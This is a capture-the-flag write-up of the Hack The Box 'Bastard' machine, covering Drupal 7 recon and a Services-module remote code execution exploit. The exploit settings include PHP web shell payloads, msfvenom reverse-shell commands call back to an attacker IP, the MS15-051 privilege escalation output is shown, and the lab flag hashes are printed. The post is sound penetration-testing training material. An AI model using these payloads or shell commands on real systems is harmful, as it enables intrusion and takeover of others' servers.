 ```yaml
---
layout: post
title:  "HTB Bastard Linux"
description : Knowledge of PHP comes handy,other than that enumeration is key!
tags: drupal, php, session-cookie
---
```


# HTB Bastard

# Recon
Nmap scan
```ruby
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Gobuster scan
![](https://lh3.googleusercontent.com/GaFlr7GWx5N7rb7y2-vSaXl_qOI3ZlnZrAanwKRIkyniOkkaPB2zGRrVrG2JCO5ef38R_C0CnDbchWt-apnuXRWa6JEX43MtH0IvRhLIICiY2Yz_LcjCeE1ZnnQCSRSjl4Hc3ZX76PtwazQFq3377eGVr-TD06s88fSMjZMZTrM01J_S_VOIZsrVIP1rR_qDF34KbkzZjV0mww7GSNzuOKLxicLKkmsZo4UiTr8XTi3jC7upES-QnHrkSjC9V-3tdnZJ5oUO2hPrS4yjWwMLXAzlNJBZVlJd05wk_-ssaU-2of4lywP8s6kTa2uhDun4MK2oR7eGRXxgdGU8XEvDR_YHZfJV6xqXkkkyjduHiCXiO-rbt0US7Bd76cjx9n1ah2eiBy5mIhcFxh-FVuBz3sWzDLLInO5fFPT-jtcdU5yKk4B2UKTeAMq2uc3HboccrLshIXwCBCA494rnHStO67WjSz4JR9UKgiFasZpvxi_QZ9ddHvdKnn4Ze1_GN43TOoMaLurneVuGh2o6tVv_nguB1bCUWuLjJQVB9mtJNKp0jgUwDt-cnZvuofL5PnVYnNcM_Zz8eoEmhJIHkIwUSUqX7GFNOjj76p9Dqi4QX6yH0i3u6OJ3Qu05PgP1i_ama4KnjsDVaGp5N-yWOa3XDX1pR9RzdeZ6T5cCdrOf5YoES9N4MtR_QPo=w368-h255-no)

Nmap indicates that a Drupal 7 is running on port:80. Further investigation reveals the changelot file.
![](https://lh3.googleusercontent.com/Yeesj-3PsnWGJ_xqpyM1XGCwZ_sxMTtcLND1FYB4hJr2EsoknRs7cEGX4mD8BU9y70P44iC1BDqPeSOZz59_YUN2neCFoSpEjlxA5LJdY224klUO0E_Yr48EhtNAvc_dofSeiAqxWzDp7FFlrAlJziRXmEwYqZzlqCULm_c6R7zgdQuj4qs2k97ifJr7aGZ0HSXqOh2FLsCAc9Qp4OtZZ9H_f_FL6AI9_307z9Cjz9bveC-nC2Ic2kMQpL_SrMcXxz5JGIke8eHnAdATOazx-P54PSPMnkY8Lk5FXJESnCvtaoPLh_H8AVDB-iTjKLBkl3xf92AsYgeygCTTcVs01-Kv-9AFHoWIh9gdAQ3uaPJY2xCyH4ol7qF64bzoMT-jA4ih5UB3R11-Wm7yVfbgXRWXqInf39C75csOZPFi5-_Tm4Ogv_sA-rLvmxnBVpToU3-6LyCy1W9Zpt1k7sBC1cg_gpcsi5ZOa5seIPW5gFmIHRlI9ZAUZW1fNpD7ZK4HPXy2_8PsHOVVUjeUFmfJcOhD0eTufwooyblwEGaWAFe0IOo9xrmm_Cd591cDIrlBAbpZq9fvmhpn2xwtiPjpO7X1H35SI7hklPPbh6bOuS8YGI6zrR2EXfvaKbDegmSf_KqQ83RjWmuPG_KjLSdUxGIi3d2w53iOfCSa-Etf7le7NGHzc8zEk7Q=w532-h266-no)

![](https://lh3.googleusercontent.com/VB7NUY3pt-vYtFz15oSnfHz9B5ShufrG73oMbDS-RdBhPVVr1Ob3gqv28Fy-69TgcNx0_6v67Zv3N9MMWtkLgT2i96YJsSdYrdhNDTE5NsV5ttkL-vUP6DGSx9SZuynkc4MHlY3DP-tG8efdqQv_D7YVCpIR157_XlH1vSkUIHGa3dVGAhYaUCh0FWWMNf_ZOaFyy-xiqL0OE_Ryz4O_-TpdAW1THvcNDLeoWVsDiDRq2j0cRzEyFJnB0tv_-Yfwhf8EkQIhxdKBBse7pITTJjZdDi1dJZ18Y0PB_VFyhWHtY4gpZKgGmzxo5rylV3yuT_mfOyQOltidwtb6Dts9pq_Yc0kZD1Xod2GKG6jBWh6x4T27qSr16MZDrdzqJ2xrtykv56tjhS1qz5Ae18XLf4yObNz-TQNH3QQ8p_WifeAhYQXEHdTk_Xrlgib7SOl04UTOpwu_lpUXII_SOU_keQKGLew32jY5aq8Gu3pRS8Ctk68c_FwYhXAzQSVt7PRumDuo1X3o5dQ1OMV5rKwgf6Fxplml6Ba0zpu624RJpi2Y3qXsDLKrllTnRpfOv2Ok7KorvuwnLuzFdDc-FXn-8d92MZ10clLoCSKJ1b5tqIyVFg3J6wY8eou5x-Kb1CeR9HSUNDS6BxrxWztuJ-GN_GOKzOqdb9axwIZND-5d-Zyr9OF4G5EEK2M=w559-h331-no)

# Exploitation
According to the changelog file the Drupal version running is 7.58. After a quick search we find
the closes exploit to the version
```shell
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```
![](https://lh3.googleusercontent.com/9lstBWfm8oaDaKy99l1tD8hJOq_d64IGWmu0a4RgeDtp7DJC-6L0xrzmUCx4URVSFJVnkEgZt6xb8QaTfECurCQUgF8vl-xpwfbgPDm_1n_qjW32P7S7iPkPnEWSMy_gSi6n06Di84Rm75syJ3P0lKovRketWxPvVCwudFYoqSZ5TcCn9u8VyMTU_likTOOElJCuJyjRw3CWlp02WNcOXAeL1qwGx_HT_36jfM7ji6wsfRZIHbLBIbLjZEdG5rWbXy9HCyi__RnOBIposVdcDHcQPV6by9h1vM1E4kA4YpYLrc5iiKXLHSaFe4rzlzRTzUlzQbb3GnHewuj2GDMeGaflG8TC4WXekLQofJ6b_Hklxk5stM-MUtympGNC-CvmFVmvcOEiGxBOACTlAB42RBmNM06HU3iEuWFb5Q_NAJ5_jAkQhBnAT-pNcfWR4-YOzqbxC2lbYVie3-_qvR-nehojWX2hpvjlTI8VvRb5VTXTaXjUr851icRrIJkLn5dRCJICEcI1J8RaGWiiDufxaiaC1EhgdlnXu8arpv9o8cekjspbkRyHdD2dLcN2WTFg5iEEjqT3yeBDSh577Hng1NQvXruBpUEgRY7uiSDMrZ2HsN_6irXpOyGCvKxYkLq6Jlqhi3GD6fFB-L5s4XfWFiUxqVZVBykE9UyYrxGsoDEwBM95AhFdGdU=w676-h275-no)

We modified the following options:
```shell
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'dixuSOspsOUU.php',
 'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
```
```shell
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'writeup.php',
 'data' => '<?php echo system($_GET["cmd"]); ?>'
```
We run the ./drupal.php file and it will create to two files **session.json** and **user.json**
![](https://lh3.googleusercontent.com/SMmshWsrne-XpcHuJoxK1KD2lR89U3wxk_O8VI1BVhfnHl5B-kkwkJ9W51xAYVSwi-wxJU65zXKOzF8w98NVmaRh-XxKUvkr0etYIiYnuG1W9bm3VBqOJd-V9YKsr0Bcevrqy7PRTNoYMAma6HWEOI8P_5q1fBARKUm4Ex59Yh5v2R2G4R3pLzNna55Gz-3CH24oI1xS5ykm4RMN9biEE96IPvFmdIYm2wzm-BON4_cOJTZvqrnPSU6v-63z4HN6R5ogLLob9kL2AYUb8gmrpKXU_W1-VJqkRGhxxY5dnO6JMGjyDp-fX0LjrFe-daIIl8O1yMkD-bqujqYSQYMb1xvB8ODxEgWGm-VTJ6RuxLVUM3CyGJpULFFUWQGeAaqmWXiWawlQNcS0Upg9sZfJhQclbyAsDnjVF69kbcRlFqIKdpJJjrCAPAHQ7urTQrDfSas0vk-iCf9i-_WtL44g2Bylz1ZZXlG860bTGeTFCQt_IVOOeROvNBCzx9NpKgqvKoJxZTH54iNTnWdQ0FiZfes5WEvc7iweOW1iC4W0Y_FNj3BaJQ8BBnlpqt7RBf0YlL8ehQwU6GJkHfPlDGOlBDtL8qKX1ndZ-JQnZlzW14QCdsLD8CmTGVrRpJnSZziHBBp0UBjktwZbtWre_4ByvtJSdq6Vh4Nm4DlcN_8uiHa0LSXKEFKSOpg=w390-h199-no)

![](https://lh3.googleusercontent.com/5LEVJvjFIrM7Tiw-TidUiLTpx5E00I4SLhHmbXCtiMhYgZNPmnsjwCpU6rAYu7-s64eiA9J1LActK24HINMLsgSV_3lJLo6rSSK--VJsEfTK4cxVOfPX3IKbIEZbNBZPKYRgBgoSUiaie3rft6FZGAR-2XzEQcATrYp3-ExRW5Q3Kejw9_RLHCNc6zW7xGXpx06Fvr_u04hiOmFX_M0X4Md7k6l_OI3HV0h0vHS1vVQpiE5Pea38ftmwWkhJPtGCnB9IIJn7TzChcc4wFRz-m4RjS8oU2lQkRIFn-ihtu6nD2tLzhAUMXQJZMq8WY5z3n0XuNiiV3wwSk-WUdDfmR5CCLvGUcmi-lQMG2PkWydQnvVQ9jdMG5SlTbfoVrc8gxgBrJuwu8YSn4zqApPw3sJYdiaFWFNvyoCgOYqYvDdCw4JdQc2tl5KcGmhd7KyfZ1hzIYYsmpM1sc7jcr783PnswhV30MhFthhd6adUYjWoh0sTmLxOUckcXYEx1ss3c2n-UqIKo7Lx-wfeOw3EbK5fZuSsPo-dm-E-yP1kr9ayb90FpK-4Q2kaar9MLJnllC3UOmvm4Unwn0crlb0BKTlFeocXxFRdqqDQj1zvweT_k7hTRt1RzeIOFninvBgjTbYRXENeCD5pVQr_Z5md9FnkNkZSnXKHq83RN3JbqKB2Kbuaph3Nj9sk=w584-h128-no)

We create a cookie with cookie manager and we use the session ID and session name from the
session.json file and we login as admin.
![](https://lh3.googleusercontent.com/FWdpEek-l4QGWD21HrN386secGE9IxiA_OVvGwEOH7A7JxrdeJRyKv_kxLrxlCCSYmTtR-udboRR6QK9LcJNys4vQclROwHpkAFIprI_g3z1Pn275JSQf6PkYjNwpciUfktV5Iq5msSUnQdqJIBWNJeA1GOs8L9yE-DgqlxgxoRMO6x5EJK9ZVbp1TcwndqBnqvdy3tIweC8wu2THJz7z_vvQLv7uy-dsjl3z_L0HIYXQB4vS8eNEisp22CnIjHuAMlBEIcgCba2EkRJwEOEfzCw0V4P-T0OqSyo6J3N7h5OVdCtJaJHvMeM_Xzd1A53CkeNShdDDc05umpafeRMJKqzdcDuUhc8790jOy1IDfZ1ILSVFA531KC3KjKP9lo8lMUXCsho-0Pf2B_snSkYXzA0BHkY4qKZJN4-Pdj6yWDXoeyWUKX6w3hCDJgRyUx6A7JwWq4TNVUlRobXrO-fCQrvKZPnBi6KHSnQZ27-9qQ1TAewuUYdcz9EktLnAKPNI6zu4HThNwp4VK_gcbzFVmXwZQU1k7KJ8foN0ZtWKhrf2n389avKxu0d643lyffXz1SvMGHG4rQQ2H8WcJCVzw01nfBVzPPaDE3qzD-5e9kPpNtOIZmcN17Avhj0r49ycan7cZ_RFx__mHX96v4TeaABukXl5nGs8gZeaEXxwc3cjcvO1V5JaeA=w986-h386-no)


On the modules section we enable the **PHP Filter*
![](https://lh3.googleusercontent.com/nqxJ_UNATvG5iBxalGd0kLEojyGOwa973A2M-zjq9lLStWqZzAMxlMbIO11VoDh8NDS8K88fzg-3LDnwFoVo-9P5fMTT80Z-7E6UfgMv0TfW4mm4CCJt_YOMXKpeQ_lXuh45zYpgZiiEcFAwPIphzDOJAC_si-jnqQVdMFBLOv8HksG-nYkEmqnO6F3oTch7bCNtJTBXp6GhI8SA5jeBqmi_kLJIoG4xDT1dlSQeTUTaLL5rLlId66_FILtoo9UZmWuR-N62UkhiceB_cE_u6gLPr5fO84E1yh7v-jkSmg2nSlk9Zhy7bJ2qgY2i7EA0D0tEcXPFgF7LXCoqZUa-CDOY4KMave_YxmbpBe13MMwnMqTaKhwVOE-EmoNiXmRC1Y-sF-CHozmwnMJyHdTQB-H6vi8Akrhe6wVh55ttNbElM8Oa3P4KOuDotdxSOAT9GsofZsIgsFXnM7TEUBRE9xW-G_pHgZD22lEhjJn8XZsxqjx8IR4z_aGv06-w3r96TK3xb0cclh41hh4IIWp7sIvvAEt2-F1dZefou00iPTPeaNccDlscnljL1xxCBg1evMnjz9eUybJ8VYArv-kPaOMQM0qzWAav3W6A693qGe2om9omIIIyJLx7BJ7_pGGMLuQ6NWV-iL7B0u2eu5y4COVATCqElmWvx3gn6YmMJ0JrgvE7mW9hZjE=w843-h93-no)


We create a php msfvenom shell and we execute it to get a reverse shell
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e base64 -f raw > evil.php
```
![](https://lh3.googleusercontent.com/QGc0fa1RgZl9a6ns8wJpGesn-jZrLbiQmAF5aVath8_4EWgBLoexsuW3AOsYyA24htM-9DZFNHmmbffO7XZL4JeD1LrY7Z1fVnJ6euJFbxSeYv5W0ZkPAdBKEPR9Y2WewjzgjWaQmjAjm-J8UA9-Lx5VIBQc3p8ycsmHIdBZl_dUOgBscp6UOaa8otyC7AoWaXajuYjsbrH8KRTGrSKogCVODNmHG03xMDq5MFihoOxipaeAAdd-T3sV8qce-Gl91gaJw5JiWgEFi_R_TwmkgBR8vzYxlpEV87SQsgTciG-5bAuzxmHLmYsl9LIkmpgLNqPYfyITNkQTTXM7Xh6mFTGUQz6L07L6htETxdwuHN8MsaguMbEnu-0nN4FK25BVbfven75Awd2wayESjrj-edDhbAv3Px8qx6DTf3Ydx5_nGsBG_MIMAV1QC9AyFkcVNodlgJhB-oBfNbNKKv_ZmzJzN7re0-a_Rxp3Fq5lBfy92xqA3OG8xWioV63UkOH5fy3MAb--8VEqewtKM6lLDb6f8GCn76pSGmeTbKQOQM7HotuEYrKc8VWT68Rkb5WCTg6QuIkiZz123HbTKnTreMZw4ZOG9yZ9u7_eGgLe7qLPHTLloVU1P6yrNQqXkcIFedEEHPlc4EnjwtVsS7_WM-eClbmhK_t8q2yxa2ydvQETpP80dxkByhg=w1126-h179-no)

![](https://lh3.googleusercontent.com/VFHh7am3Klejtbn_HPd3Dv74BW-29ig73ZdRcCpzmZ5k7dikSE1e_3C-2mjrw6oudAxyxLkSPygKbVu8UZnIBAViqtvhpNC2IcQpr0i7zbJeCGKxZRwQi_Q2Jxjwgb4BMeOtZYsp3ZLQ0yPBlOmHWgW-QdrTHM2slDp01O06kZPdXWTIJP5xDamD0i6pEL5_cewVqB9TIvAsvyPauxQtTTaLRFDvg5JpBCz3sJx-aFh5wmq6ihGNFqH4WKf4OWZMkwh-jr2MtfbkqepsIayHTfB_rnOENyJWn0J3B4BMvz2VRyj0PKv8R3VZrIUcBWvLI6zxlzL8AakevTC9887WeKWeU8mrpqHvlPdi3hi89EF-H1HBDRU7H7mMEg8emDVQqwKc6E4e1LQcc9fJJwQ_TIIJaGmvPXHUbPXiUqMMT0eYW_Rgnlji1u_WrZoUB2Wv5DX7SJlgTxS3yA6yLFOvGjwbRyTDj3i-pZ8a-WIDl-nT-gzZDnzZL47JuvTSxATsgzgce1HJLIBaVNiLsdfBvSYtappbyHVL5Eq2h2zlOez7sPcbKPIr5UqngokTd4TAeYkhfyGjPA89RX04DNxZtFf-gQ7QcgRmBlXqdVoYfD7v10gAomRGP_y4_FTxiGcRw_L0Izzc7g6-Ofo_9v-illxW5JFMNhiEgfXycxUCJAkXaf7m33lgImU=w492-h156-no) 

![](https://lh3.googleusercontent.com/S5sXZe0Qh6mCkJsuKAr8IKe0ZMv9Ib8mOq8Cnkl0q2wDr82kybgdB1XgYv8F8C7Gu99PAN7H4JeQ6Wfax1xz1SJCwXxC7XfLfVhNkvXjthI4Z4mh4JftqdnpBp6sDWqb_yUfkhMnwkxjqf-B35SUJERjWbJYyosWpWtNJEnZ9Srpb9cLs6L9DLKc2YPR5jqpqe2xKDuXC5Y3bG8ZpGb_1qJZYBS31nUp8mhmhw12uh2w_N2z7aiRFbCP8-Ur3FeQVNwH3HO-6aacVwep0okgEQi9qhKrcNyEmfGSO-gZvQQcENqvoqA-Z08FtV23RA7nWEFdxFpJ6lLi-8e5yi5KOgvh-7oG-QINPJsQ8Mwvsdr3T_sQ7D6OVQe25Dc0c47oSIE8lHMuUKnhsqq0AAmW0GdiUvJFnn6sv5WczHU2aq9dpjWxX5gjYnKB6C1AL8nkU6sIArF6T-9kztigFgU-LottydzOnoA3qMojJbenpnjLmw9cphIXqK-f-eZ28Uj92ayyVrR3DjWrlZMjteyo5Ex-S-tHZtSpKuv2h-fuUgEztz5Y2kTKLWrsdTgdqRevODdNQaEKdEbMoqvXYvBrwPFnz6Jx2nj8rFo_MZgW1C2OPbjNyszwGqtYwJYE1X8qmb-8AccySIo3K64MWeK-J9oEA6Wt4QkiXGPnSk4K2IJ1NFcmFjiZcFY=w446-h145-no)

However, shell is very limited and it crash when we try to spawn a windows shell. so we create another
msfvenom shell
but this time a windows/x64 as the target machine is a 64bit. and we upload it using the current php
shell
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=5555 -f exe > evil64.exe
```
![](https://lh3.googleusercontent.com/MZ9qE-DU4oClL3QslcYQnUXOyiv3njiZ_XbmDwIGDfEwzvEtpv4jbIWKEdhBxeXGDYE6funaNm9SyWhrQNdX6J0ctv_a7-HhE6XPTqx15bjO4jDvc8aI57zpZYuKoU4gmBQJ0KiXEepIAMfvedm1D_z3iV65aJokfs8rXMrlcEfAHKBJ0RizB7ACqfMgNkNnTkdTFQ_bmgyuxw5jj4Xdm4BR24SqKocgqxcYtI5JLbtsGYDk8_rtHKeEJ0Eu32qNDSP3NtKNb-gQxOB3mYQNq6QretWLELD-n9RNEnwPkZNMUJpZZqayPB6b6gbKXjHzTalVM2_UR0bAZGGstllueS8k10_8wfsBl3Ap6tSIiEul8lQEqDU4N-bUbYspOSRbeuNX7VgCkaMSEWdX2R6ItuXo8ZGRycQYIRvfKm9TcqQf_xe4N_QbhYklEpRHuuR-2o6TGqkWPZP0lu8lD90g8S4POMhOQTrUMC34nPLWopw4OR6MySkfVxWI7Pt8tcJ4KwUvZtwmO4f28Q_TpFWPpX4OQlNDFHK7aIeJuwWK8X8Zm59jQUva5NtZ98RpydrnJWdPdRbf6FLXyHGVQL-AuDw8Y8Se7TCiCbryqzpeKOpJlkAGX5s6XWeClbUIWt_IUljPJoi2AkPuywjC40Dp06glIGG4JGtbvK-U8viuzZIZMr_qacGwkHM=w679-h395-no)

![](https://lh3.googleusercontent.com/s343Uk5g9pk_Pht53oplofawkwPijfvmygzwqbHYisFqVNCKnI6BmCzAS8Z7dxBQWg-7f0DBH3kzPBiKSeGQBJUt-v9m7fxbLyvt5Hy3_BbxyxVUq_BpPeIvzB7ayaPb1u2_6nnwwI2T-T9bNvJwKys-l_qzmIkZNgYe9Q3jLRgcpD2FzLNsOlTWH-Edc1YWj62IFwlcHckOLN6WfKCXpl6Ikogzc54mRRoes3Droy5C9A86cZ6PG22WOnMknamD9rfOhdk9RZP77QRt0z9nhMZ5_uXaJxKN0mAZMnkERsSPECx0tUpBG1JA2ripOAt-2aasrTzz_4Az-GTh6wqurRh6ZOJ25RBAM8YwA01Eyw0js8TcWbBmn5c7cj_JaBH9NJ3wng6Q88wgdMqzDJ1UEIDEHbgDNftBIWaDbwxZ6_iMObt24fuqP_6fQ2_UkWoV3ntOBKjKqlT5QffoQTYKbIZhAlUPtHi1A6f4Wn4bZaRvVFD2pfXx9mDJzuqfkAeZTCmXhjGfVM1aKZWpgvYwbpTNFHT5XMjMbGM-KwBkG14HDsheLxQbTf7CBoynE4H9yfsk6q4fDHUd1u44ZZAAtqzvjvE6BHf978e4VT95JHr3gAQ-dVDgc6Pc6BohFfYTE1s_NPVeYxHG_8NfakqLqSPaWGtO9BrNRoFvWLXtIDpoSliwirgkNzU=w713-h160-no)


# Privilege Escalation
After running windows suggester and trying different exploits I finally find one that worked vuln: MS15-051 CVE-2015-1701
This exploit let us pass commands as system authority, so by passing the command "cmd" we get system
priv. Ex
```ruby
2/2
C:\inetpub\drupal-7.54>exploit-bastard.exe whoami
exploit-bastard.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1500 created.
==============================
nt authority\system
C:\inetpub\drupal-7.54>exploit-bastard.exe cmd
exploit-bastard.exe cmd
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2588 created.
==============================
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
After some google I came across with a compiled version of this exploit, so I upload it with meterpreter and execute the exploit.
![](https://lh3.googleusercontent.com/kwMV2s5feygPwMnyf1rxzqQQjoGG508wb4Xo13huKmGP1TkJtEGTovARb-UHok-weztD_uhPxZ1T0HNBwvFSG0T4GcZcTHeCQANHn6OUolmHUcBWi_SVkpbwHKJcS89V3aZLRG9-zyE5e1kDkiiXehiUAxxQ-NZay_RZxn4mgsO2fBojLolxZhlv2i1G_ulZXU_gpcwhbDPH3QrAdBVAYquxz9A_1vQnSyPe6-239cspSo0Qi4ErjKCmYT6ea1ingVKOCMpzebg1XIeQ44ZhWcUBtlNN-BzXRKATKBeKKQqnLKWVO7-gqmiaX0r3ConQhwYIewvwINYe6UZqAI5v8s35eluuxra5-mdIk5noj50HH_bcFQllYEiqpUeZtPtqtn-OiyszxzIct2CtBGnd5JWu6bgj81KU3drHn6r7qQtCJDJoVyNjmyYlazR23h6O7_FMztv8z77HnDUFRaNjx3_kfHiPXnj35fXbaWMUo_A3w98qruDnDYCY7HfhGiTBXVfk6HMKFMuXIr88O8VETe0Wne9rffkFgK6X6UaoHMwaSvZXzQ05-hLrmQddonHzG-xdT6IftPmocKOkZpeQaju26GeqyQjit7rWgD4JbVEwtAdpZ6Xn__AtNrXiRycbasN1CUYNSsxqOKvyPS6jlHh0BC3wXJcTZHT4hW30kcWoxjTu889FNnk=w652-h89-no)

Finally we got Root
![](https://lh3.googleusercontent.com/Yx-CDF87NocbY3V9tB3S1BU6ObNyVA5fF4Qe99E0SmWHxsge9O80XCjx656LGa6_CjVfF_HsmEmuy9Kvc75MGAhnPDrtaYR0zJqWVbZfD5mDoxAJMrrfwyLf21lqdLQ2By1M_F0jiGbrt5ScS--L8bu4VkH2Mk5xpG6DqI_OqS8DmrHVSbF3Fq8EhTHm1b1X_JYmZ7WKgS8UUTQiwtNVKIU9qsz2dOBvPjeccN3bfgwyNwrZEXbyUVKt6tW6Zm_dN8AHkQDrRZdB14qRUVWxIyvfliByVrqx57THulBp_J-PIuiMvFKa3E7FB3vIfdRlTI9GXKcpZJ5P1l2X4FovQvrS7ZLnXM0rqHQXh6FYwdRpgFivsJw0PlAgVj7eJwBclZLVdz37d_iiOoo0iCAVdeeLEpxd2g8PGxynUJSO2u436ViByCyQx9wL3jOPwHa1z5vOl7avUlwz2T0p98XevPmF2v24Ft3ejWb1szVxSHHn4HKxYtSoYAwRjI3nL7Dk6eWfD6mDCiFqJJQsiN6cRM0jjP9E_R56WItJYz_ZXujE5BWek-GS5CIKGK7tCysBF8SFNI__1otQZ_RjpSYAY6aNx-gC6yq75JQVpwKV_503zPo7HojhyW_y1jho7JCEeeHh_YfF7qWkz3nmoTSoAAodFetIUe6Nwcb4ElX7xpkJ9s2qkkKdW7s=w630-h355-no)


```ruby
ROOT  "4bf12b963da1b30cc93496f617f7ba7c" 
USER  "ba22fde1932d06eb76a163d312f921a2" 
```
